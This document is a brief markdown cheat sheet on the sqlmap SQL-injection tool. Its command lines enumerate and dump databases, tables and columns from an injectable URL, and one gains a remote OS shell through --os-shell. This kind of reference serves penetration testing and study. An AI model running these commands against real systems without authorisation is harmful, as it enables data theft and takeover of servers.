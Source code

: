 # sqlmap

Automated SQL injection.

## Run off an HTTP request

1. Use Burpsuite to capture an innocent request to the vulnerable URL

2. Copy that request to a text file

3. Run `sqlmap`

```bash
sqlmap -r $REQUEST_TEXT_FILE [any of the options below]
```

## Crawl web application

```bash
sqlmap -u $URL --crawl=1
```

## Show existing database names

```bash
sqlmap -u $SQL_INJECTABLE_URL?$VULN_PARAM=$ANY_VALUE --dbs
```

## Show a database's table names

```bash
sqlmap -u $SQL_INJECTABLE_URL?$VULN_PARAM=$ANY_VALUE --tables -D $DATABASE_NAME
```

## Show a table's column names

```bash
sqlmap -u $SQL_INJECTABLE_URL $VULN_PARAM=$ANY_VALUE --columns -D $DATABASE_NAME -T $TABLE_NAME
```

## Dump a table

```bash
sqlmap -u $SQL_INJECTABLE_URL $VULN_PARAM=$ANY_VALUE --dump -D $DATABASE_NAME -T $TABLE_NAME
```

## Dump any database `sqlmap` can find from SQL-injectable URL

```bash
sqlmap -u $SQL_INJECTABLE_URL $VULN_PARAM=$ANY_VALUE --dbms=$DBMS --dump --threads=5
```

## Gain remote shell from SQL-injectable URL

```bash
sqlmap -u $SQL_INJECTABLE_URL $VULN_PARAM=$ANY_VALUE --dbms=$DBMS --os-shell
```

## Can't find anything?

Try `--level=[1|2|3]` and/or `--risk=[1|2|3]`
